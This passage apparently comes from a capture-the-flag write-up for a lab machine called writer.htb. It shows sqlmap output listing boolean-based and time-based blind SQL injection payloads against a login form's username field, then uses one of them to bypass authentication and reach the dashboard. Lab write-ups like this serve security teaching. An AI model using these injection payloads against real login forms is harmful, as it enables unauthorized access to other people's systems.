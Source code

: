 ![administrative](administrative.png)

So we fire up `sqlmap-wizard` to find a valid authentication bypass:

```
Parameter: uname (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: uname=-6697' OR 5954=5954-- YHdG&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=daGe' AND (SELECT 4506 FROM (SELECT(SLEEP(5)))yXVr)-- DQOi&password=
```
We can set our username to `-6697' OR 5954=5954-- YHdG` and put anything as the password to login and land on http://writer.htb/dashboard:

![dashboard](dashboard.png)
